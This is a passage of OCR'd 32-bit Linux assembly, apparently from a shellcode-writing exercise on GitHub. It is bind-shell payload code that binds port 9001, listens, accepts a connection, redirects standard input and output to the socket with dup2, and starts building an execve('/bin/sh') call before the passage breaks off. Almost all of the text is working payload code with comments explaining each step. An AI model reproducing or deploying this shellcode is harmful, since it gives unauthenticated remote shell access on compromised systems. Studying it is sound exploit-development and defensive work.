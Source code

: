 	; BIND syscall
	xor eax, eax
	mov ax, 0x169	; move 361 into syscall register
	mov ebx, edi	; move fd (edi val) into ebx - param 1

	; create our sockaddr struct in memory, used with bind() call, 2nd param
	xor ecx, ecx
	push ecx	 ; push the 0 onto the stack (4th struct value)
	push ecx  	 ; push the 0 onto the stack (Address)
	push word 0x2923 ; push the port onto stack  (0x2329) (PORT NUM = 9001) 
	push word 0x2	 ; push 2 onto the stack     (AF_INET)

	mov ecx, esp	; store the current stack pointer into ecx, points at struct
	xor edx, edx
	mov dl, 16	; this parameter takes the length of the addr (param 3)
	int 0x80	; syscall 

	; LISTEN syscall 363
	xor eax, eax
	mov ax, 0x16b  ; move 363 into register (syscall number)
	mov ebx, edi    ; this should still be return val from socket() -> fd
	xor ecx, ecx    ; clean out ecx as the 2nd param value should be 0
	int 0x80	; syscall

	; ACCEPT syscall 364
	xor eax, eax
	mov ax, 0x16c	; move 364 into register (syscall number)
	mov ebx, edi	; this should still be return val from socket() -> fd
	xor ecx, ecx	; zero out 2nd param (NULL)
	xor edx, edx	; zero out 3rd param (NULL)
	xor esi, esi
	int 0x80	; syscall

	; accept() returns a new fd value, so let's store this one off too
	mov edi, eax	; back up the fd value in edi again

	; DUP2 syscall (3 times)
	xor ecx, ecx
	mov cl, 0x3	; set counter register to 3 for counting down in the loop

	for_loop_dup2:
	xor eax, eax
	mov al, 0x3f
	mov ebx, edi
	dec cl		; decrement our counter before the syscall (should be 2, 1, 0)
	int 0x80
	
	jnz for_loop_dup2	; if ecx is not equal to 0, keep going

	; EXECVE() syscall
	xor eax, eax	; zero out eax ready for pushing 0s on to the stack
	push eax	; push first zero on, align the stack?

	; "/bin/sh" in hex is 0x2f 0x62 0x69 0x6e 0x2f 0x73 0x68
	; we flip these because it's little endian
	; 0x68732f6e, 0x69622f
